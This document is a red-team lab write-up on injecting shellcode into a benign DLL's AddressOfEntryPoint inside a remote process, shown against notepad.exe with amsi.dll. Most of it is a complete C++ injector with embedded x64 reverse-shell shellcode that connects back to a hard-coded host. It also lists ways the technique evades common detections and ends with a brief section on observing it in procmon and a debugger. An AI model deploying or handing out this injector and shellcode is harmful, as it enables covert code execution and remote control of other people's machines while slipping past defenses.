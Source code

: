 ```yaml
---
description: Code Injection
---
```


# AddressOfEntryPoint Code Injection from an Injected DLL

## Overview

This is a shellcode injection technique similar to the one described in my previous lab [AddressOfEntryPoint Code Injection without VirtualAllocEx RWX](addressofentrypoint-code-injection-without-virtualallocex-rwx.md) where we would start a process in a suspended state, insert shellcode into the program's `AddressOfEntryPoint` and resume the suspended  thread. 

In this technique, however, a malicious process performs the following actions:

1. Injects some benign Windows DLL into a remote \(target\) process
2. Overwrites DLL's, loaded in step 1, `AddressOfEntryPoint` point with shellcode
3. Starts a new thread in the target process at the benign DLL's entry point, where the shellcode has been written to, during step 2

In this lab, I will inject `amsi.dll` into a `notepad.exe` process, but this of course could be done with any other DLL and process.

## Pros

1. Does not allocate RWX memory pages or change their permissions in the target process at any point
2. Shellcode is injected into a legitimate Windows DLL, so detections looking for DLLs loaded from weird places like c:\temp\ would not work
3. Remote thread that executes the shellcode is associated with a legitimate Windows module

## Cons

`ReadProcessMemory`/`WriteProcessMemory` API calls are usually used by debuggers rather than "normal" programs.

{% hint style="info" %}
`ReadProcessMemory` is used to read remote process injected module's image headers, meaning we could ditch the `ReadProcessMemory` call and read those headers from the DLL on the disk. 

We could also use `NtMapViewOfSection` to inject shellcode into the remote process, reducing the need for `WriteProcessMemory`.
{% endhint %}

## Code

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <psapi.h>

int main(int argc, char *argv[])
{
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t moduleToInject[] = L"C:\\windows\\system32\\amsi.dll";
	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	CHAR remoteModuleName[128] = {};
	HMODULE remoteModule = NULL;

	// simple reverse shell x64
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	// inject a benign DLL into remote process
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	//processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 8444);
	
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof moduleToInject, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)moduleToInject, sizeof moduleToInject, NULL);
	PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE dllThread = CreateRemoteThread(processHandle, NULL, 0, threadRoutine, remoteBuffer, 0, NULL);
	WaitForSingleObject(dllThread, 1000);
	
	// find base address of the injected benign DLL in remote process
	EnumProcessModules(processHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
	{
		remoteModule = modules[i];
		GetModuleBaseNameA(processHandle, remoteModule, remoteModuleName, sizeof(remoteModuleName));
		if (std::string(remoteModuleName).compare("amsi.dll") == 0) 
		{
			std::cout << remoteModuleName << " at " << modules[i];
			break;
		}
	}

	// get DLL's AddressOfEntryPoint
	DWORD headerBufferSize = 0x1000;
	LPVOID targetProcessHeaderBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(processHandle, remoteModule, targetProcessHeaderBuffer, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetProcessHeaderBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetProcessHeaderBuffer + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)remoteModule);
	std::cout << ", entryPoint at " << dllEntryPoint;

	// write shellcode to DLL's AddressofEntryPoint
	WriteProcessMemory(processHandle, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);
	
	// execute shellcode from inside the benign DLL
	CreateRemoteThread(processHandle, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);
	
	return 0;
}
```

## Demo

Below shows the technique in action - amsi.dll gets loaded into notepad and a reverse shell is spawned by the shellcode injected into amsi.dll `AddressOfEntryPoint`:

![](../../.gitbook/assets/adressofentrypointdllinjection%20%281%29.gif)

## Observation

Note how powershell window shows that `amsi.dll` is loaded at 00007FFF20E60000 and it's DLL `AddressOfEntryPoint` point is at **00007FFF20E67**E00. 

If we look at the stack trace of the cmd.exe process creation event in procmon, we see that frame 9 originates from inside `amsi!AmsiUacScan+0x5675` \(**00007fff20e67**f95\) before the code transitions to kernelbase.dll where `CreateProcessA` is called:

![](../../.gitbook/assets/image%20%2815%29.png)

{% file src="../../.gitbook/assets/addressofentrypoint-injection-procmon.PML" caption="Procmon logs" %}

If we inspect notepad.exe threads, we can see thread 7372 with a start address of `Amsi!AmsiUacScan+0x54e0`. 

If we inspect that memory location with a debugger, we see it resolves to `Amsi!DLLMainCRTStartup` and it contains our shellcode as expected:

![](../../.gitbook/assets/image%20%28107%29.png)

